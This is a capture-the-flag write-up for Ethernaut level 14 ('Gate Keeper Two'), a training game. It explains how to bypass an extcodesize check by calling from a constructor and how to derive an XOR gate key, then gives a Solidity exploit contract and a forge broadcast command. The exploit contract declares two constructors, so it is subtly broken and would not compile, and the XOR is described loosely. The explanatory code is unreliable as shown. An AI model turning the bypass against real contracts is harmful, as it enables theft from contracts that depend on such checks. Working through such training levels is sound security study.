

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [modifier one](#modifier-one)
  - [modifier two](#modifier-two)
  - [modifier three](#modifier-three)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif



## The hack

Another gatekeeper here with three modifiers to pass. So let's see how to pass them.

### modifier one

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

Lucky us, this is the same modifier as the previous level, so we can use a contract to call the function. Or can we?

### modifier two

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

The `extcodesize` opcode returns the size of the code at the given address, `caller()` here. If the address is a contract, it will return the size of the contract's code. If the address is an EOA (Externally Owned Account), it will return 0.

So, it seems that we can't use an intermediary contract after all. However, there is no way to pass the first gate otherwise. Is there another solution then?

Well yes, there is. If we execute our call from a `constructor`, the `extcodesize` will return 0 since the contract hasn't been deployed yet technically. So this is how we can pass the second gate.

### modifier three

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

This one looks pretty ugly at first glance, but let's take a better look at the XOR operator first. The XOR operator returns true if the two operands are different. So, if `A ^ B == C`, then `A ^ C == B` and `B ^ C == A`. So we could rewrite the modifier like this (which is much nicer, let's be honest):

```javascript
modifier gateThree(bytes8 B) {
    require(uint64(A) ^ uint64(B) == uint64(C));
    _;
}
```

In other words, no need to think too much here, the `_gateKey` will be simply equal to:

```java
bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution

We can now write our contract to pass the three gates:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract LockPickingTwo {
    address private gateKeeperTwo;

    constructor(address _gateKeeperTwo) {
        gateKeeperTwo = _gateKeeperTwo;
    }

    constructor() {
        attack();
    }

    function attack() private {
        bytes8 _gateKey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^
                type(uint64).max
        );

        (bool success, ) = gateKeeperTwo.call(
            abi.encodeWithSignature("enter(bytes8)", _gateKey)
        );
        require(success, "Attack failed");
    }
}
```

Then, run the script with the following command:

```bash
forge script script/14_GateKeeperTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- The `extcodesize` opcode returns the size of the code at the given address.
- The contract's size is 0 in the constructor.
- The XOR operator `^` returns true if the two operands are different.

## Reference

- [Distinguishing EOA from Smart Contracts Securely](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13)

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
